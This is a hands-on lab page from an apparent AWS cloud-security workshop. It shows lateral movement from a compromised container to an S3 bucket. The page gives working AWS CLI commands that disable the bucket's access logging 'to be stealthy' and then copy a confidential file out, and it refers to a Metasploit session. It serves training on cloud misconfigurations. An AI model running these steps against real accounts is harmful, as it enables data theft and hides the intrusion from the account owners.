 ```yaml
---
title: "Lab 4: Moving laterally to a S3 bucket"
weight: 5
---
```


In the previous lab, we explored the compromised container and discovered an associated IAM profile with access to the AWS CLI. We also discovered that we have read access to Amazon Simple Storage Service (S3).

**Breakout**

Having identified this new potential lateral target (via S3 read access), let’s investigate how we can further leverage the AWS CLI.

Due to a fairly common access control misconfiguration, we can impersonate both the root user of this container, along with the existing AWS IAM profile associated with this container (for accessing AWS services). It is possible that excessive permissions have been assigned to this IAM profile, so let’s continue probing our capabilities in S3.

In the previous lab, we enumerated the AWS account S3 buckets.

![Listing S3 contents](/static/img/lab3-5.png)

Notice that two buckets include the string “confidential” and one of them appears to be a logging bucket. To be stealthy, we should disable any active bucket access logging policy that might be writing to that bucket.

_Get the target bucket name_

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)

echo $TARGET_BUCKET
```

Check for a bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

![Bucket logging configuration](/static/img/lab4-1.png)

::alert[If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.]{header="Note"}

We can see from the result that there is a logging bucket policy. We’ll create and associate an empty bucket policy with the confidential data bucket to disable the policy.

Associate an empty bucket-logging policy to disable bucket logging

```shell
echo "{}" > no-bucket-logging.json

aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
```

Confirm that we attached the new bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

Since we added a null policy, the command should return nothing. It worked!

**Confirming the S3 target**

Now we’re just going to try and access the confidential bucket and see if we get results. AWS S3 buckets support granular permissions, so while we may have access to the bucket, we might not be able to list files, or only list specific files.

```shell
aws s3 ls s3://$TARGET_BUCKET
```

![Reviewing bucket target](/static/img/lab4-2.png)

Success!

We only see the one file, but it does look pretty interesting...

Download the file to the local container

```shell
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
```

**Attack progression diagram**

There are three steps to this attack. The diagram below shows what we have accomplished with a few simple misconfigurations.

![Attack progression](/static/img/lab4-3.png)
